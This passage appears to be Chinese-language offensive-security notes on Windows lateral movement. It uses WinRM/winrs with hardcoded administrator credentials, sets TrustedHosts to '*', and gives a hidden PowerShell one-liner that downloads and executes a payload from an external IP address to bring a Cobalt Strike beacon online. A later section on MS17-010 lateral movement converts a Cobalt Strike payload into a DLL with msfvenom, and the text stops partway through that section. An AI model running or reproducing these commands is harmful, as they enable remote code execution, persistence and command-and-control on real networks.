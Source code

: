 ### 1.执行

```
winrs -r:http://192.168.70.16:5985 -u:administrator -p:admin@123 "whoami"
```

```
如果出现提示:
winrs error:winRM 客户端无法处理该请求。可以在 下列条件下将默认身份验证与IP地址结合使用:传输为HTTPS或目标位于TrustedHosts 列表中，并且提供了显式凭据。使用 winrm.cmd 配置TrustedHosts. 请注意，TrustedHosts列表中的计算机可能未经过身份验证。有 关如何设置TrustedHosts 的详细信息，请运行以下命令：winrm help config。

允许所有客户端ip连接:
Winrm set winrm/config/Client @{TrustedHosts="*"}

手动开启winrs
winrs quickconfig -q
```

### 2.执行上线命令

```
winrs -r:http://192.168.70.16:5985 -u:administrator -p:admin@123 cmd /c "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))"
```

## cs自带

winrm,使用域管理员身份

![image-20230410150023496](https://img.gyxnb.top/img/image-20230410150023496.png)



# 使用系统漏洞ms17010横向移动

## Cobalt Strike生成DLL

### 1、生成CS的生成bin文件

![image-20230410151037984](https://img.gyxnb.top/img/image-20230410151037984.png)

### 2.使用msf用bin文件生成dll文件

```
msfvenom -p generic/custom PAYLOADFILE=./pay1oad.bin -a x64 --platform windows -f d11 -o wanli.d11
```

![image-20230410151052771](https://img.gyxnb.top/img/image-20230410151052771.png)

### 3.或者直接生成也行
